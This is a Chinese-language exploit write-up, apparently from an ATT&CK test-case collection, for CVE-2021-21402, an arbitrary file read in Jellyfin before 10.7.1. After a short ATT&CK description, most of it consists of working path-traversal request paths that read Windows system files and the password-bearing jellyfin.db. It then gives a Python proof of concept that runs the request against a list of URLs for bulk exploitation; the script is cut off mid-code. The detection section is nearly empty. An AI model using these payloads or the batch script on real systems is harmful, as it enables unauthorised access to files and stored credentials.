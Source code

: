 # T1190-CVE-2021-21402-Jellyfin任意文件读取漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Jellyfin是一个自由软件媒体系统，在10.7.1版之前的Jellyfin中，攻击者可以通过精心构造的请求读取Jellyfin服务器端的任意文件，当使用Windows主机作为操作系统时，此问题将变得跟加普遍，该漏洞已在10.7.1版本中修复。

影响范围：Jellyfin<10.7.1

## 检测日志

HTTP

## 测试复现

### 利用POC

从服务器下载带有密码的jellyfin.db：

/Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ 

未经授权读取windows的文件

GET  /Audio/anything/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.aac/

GET /Audio/anything/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.mp3/

读取host文件

/Audio/anything/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5CSystem32%5Cdrivers%5Cetc%5Chosts/stream.mp3/

读取带有密码的数据库文件

/Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/

### Python_POC

```python
#批量ip
import requests
import sys
import urllib3
urllib3.disable_warnings()
 
if len(sys.argv)!=2:
    print('Usage: python3  xxx.py  urls.txt')
    sys.exit()
txt= sys.argv[1]
f=open(txt,'r+')
for i in f.readlines():  
    url=i.strip()
    url=url+"/Audio/1/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.mp3/"
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36',
                "Content-Type": "application/octet-stream"
```